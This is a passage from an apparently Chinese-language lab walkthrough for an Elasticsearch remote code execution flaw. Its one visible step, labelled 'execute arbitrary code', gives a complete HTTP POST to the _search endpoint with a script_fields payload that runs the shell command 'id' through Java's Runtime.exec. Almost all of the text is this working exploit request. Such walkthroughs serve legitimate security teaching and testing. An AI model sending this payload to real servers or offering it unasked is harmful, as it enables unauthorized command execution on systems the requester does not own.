 3. 然后，执行任意代码

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```

<p align="center"><img src="img/2/14.png" width="800px"></p>
